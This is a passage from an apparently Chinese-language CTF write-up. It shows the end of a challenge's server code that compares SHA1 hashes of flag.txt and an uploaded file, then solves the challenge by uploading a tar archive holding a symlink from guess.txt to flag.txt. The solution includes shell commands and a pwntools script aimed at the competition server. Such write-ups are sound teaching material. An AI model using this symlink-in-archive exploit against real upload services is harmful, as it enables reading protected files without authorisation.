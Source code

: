         try:
            a = subprocess.check_output(['/usr/bin/sha1sum', 'flag.txt'])
            b = subprocess.check_output(['/usr/bin/sha1sum',    \\
                                        os.path.join(outdir, 'guess.txt')])
            a = a.split(b' ')[0]
            b = b.split(b' ')[0]
            assert len(a) == 40 and len(b) == 40
            if a != b:
                raise Exception('sha1')
        except:
            print('Different.')
            raise

        print(open('flag.txt', 'r').readline())
{% endcodeblock %}

#### Solution

賽後聽**stavhaygn**說這題對**MacacaHub**算考古題... 來自去年金盾獎決賽= =
不過從遊記[108金盾獎決賽](https://yctseng1227.github.io/191116-108-cyber-security-competition/)看得出來我沒有參與到解題過程，可惡QwQ


簡單解釋一下上方的code:
- line 12 基本上就是輸入數字，即檔案大小。
- line 17, 18 輸入tar包裝檔案（可以利用pwntool），然後在line 23進行解包。
- line 29 - 36 針對官方Server的兩個檔案 `guess.txt` 和 `flag.txt` 進行sha1比對，若相同就吐出flag。

我起初乍看之下還以為是sha1 bypass，但我們並不能改變Server的檔案，那我們到底是要上傳啥哩？

關鍵就是 [**Symbolic link**](https://en.wikipedia.org/wiki/Symbolic_link)，有點像是建立捷徑的概念，把 `guess.txt` 和 `flag.txt` 連結在一起。

首先，在本地端用指令建立連結，透過`ls`查看。
```shell
$ ln -s flag.txt guess.txt
$ ls -al
lrwxrwxrwx ... guess.txt -> flag.txt
```

再來就是進行tar打包（無壓縮）。
```shell
$ tar cvf guess.tar guess.txt
```

如此我們就能得到一個tar檔案，再來把扣摳一摳就行了吧。

{% codeblock solve.py lang:python %}
from pwn import *

conn = remote('60.250.197.227', 11000)

with open('./guess.tar', 'rb') as f:
    tar = f.read()

num = len(tar)
conn.sendline(str(num))
conn.sendline(tar)
conn.interactive()
{% endcodeblock %}
